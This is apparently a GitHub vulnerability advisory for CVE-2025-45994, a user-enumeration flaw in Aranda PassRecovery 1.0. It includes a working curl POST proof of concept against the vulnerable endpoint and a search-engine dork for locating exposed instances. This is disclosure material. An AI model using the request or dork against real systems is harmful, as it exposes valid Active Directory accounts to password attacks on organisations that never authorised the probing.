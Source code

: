 # *CVE-2025-45994: Enumeration users Active Directory in Aranda PassRecovery*

## Description
An issue in Aranda PassRecovery allows attackers to enumerate  
valid user accounts in Active Directory via sending a crafted POST  
request to /user/existdirectory/1.


## PoC
> 1.- To exploit the vulnerability, you must send a POST request with the Active Directory user to the endpoint: /APRAPI//api/v1/user/existdirectory/1 and it will respond whether it is valid or not.

```bash
curl -XPOST \
-H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.3124.83' \
-d '"<user>"' -H 'Content-Type: application/json' -i https://<domain>/APRAPI//api/v1/user/existdirectory/1
```

## DuckDuckGo Dorking:
Link - [https://duckduckgo.com/?q=%22Aranda+PassRecovery%22+intext%3A%22Aranda+PassRecovery%22+-site%3A.arandasoft.com&t=h_](DuckduckgoDorking)
```
"Aranda PassRecovery" intext:"Aranda PassRecovery" -site:.arandasoft.com
```


## Vulnerability Type 
> User Enumeration - CWE 200


## Vendor of Product
> Aranda Software - [https://arandasoft.com](https://arandasoft.com/)


## Affected Product Code Base
> Aranda PassRecovery - Version 1.0

> URL spanish: https://web.archive.org/web/20250520233313/https://arandasoft.com/productos/service-management/password-recovery/

> URL english: https://arandasoft.com/en/productos/password-recovery/
